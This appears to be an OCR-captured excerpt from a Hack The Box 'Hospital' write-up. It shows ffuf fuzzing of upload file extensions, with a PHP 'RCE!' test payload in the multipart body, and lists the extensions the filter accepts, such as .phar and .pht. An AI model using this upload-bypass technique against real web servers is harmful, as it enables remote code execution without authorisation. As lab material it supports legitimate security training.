 ```bash
 :: Wordlist         : FUZZ: /home/elliot/Documents/HackTheBox/hospital/web_extension.txt
 :: Header           : Content-Type: multipart/form-data; boundary=---------------------------11902181737497576573931872037
 :: Data             : -----------------------------11902181737497576573931872037
Content-Disposition: form-data; name="image"; filename="lego.FUZZ"
Content-Type: application/x-php

<?php echo "RCE!"; ?>
-----------------------------11902181737497576573931872037--

 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: Location: /success.php
________________________________________________

.log                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 697ms]
.com                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 699ms]
.jsp                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 701ms]
.hta                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 91ms]
.c                      [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 95ms]
.cfm                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 98ms]
.bat                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 99ms]
.sql                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 85ms]
.dll                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 81ms]
.cgi                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 78ms]
.exe                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 76ms]
.htm                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 1027ms]
.mdb                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 2071ms]
.inc                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 3250ms]
.js                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 3247ms]
.jhtml                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 3247ms]
.css                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 4069ms]
.jsa                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 4062ms]
.pht                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 4068ms]
.phps                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 4067ms]
.reg                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 5087ms]
.json                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 5083ms]
.rb                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 5083ms]
.pcap                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 5087ms]
.sh                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 5083ms]
.pl                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 5083ms]
.txt                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 4318ms]
.xml                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 4307ms]
.nsf                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 5082ms]
.swf                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 4322ms]
.phar                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 5082ms]
.shtml                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 5083ms]
```
